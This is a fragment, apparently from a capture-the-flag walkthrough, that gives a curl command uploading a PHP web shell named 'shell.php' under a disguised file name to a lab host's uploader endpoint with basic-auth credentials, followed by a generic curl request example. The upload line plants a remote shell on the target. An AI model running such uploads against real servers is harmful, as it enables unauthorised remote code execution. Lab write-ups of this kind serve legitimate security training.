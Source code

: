 
upload file using CURL:
`  curl -u developers:9972761drmfsls -F "file=@shell.php" -F "plupload=1" -F "name=anyname.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"   `


For see the request and  response 
`  curl -X "GET" https://example.com  `




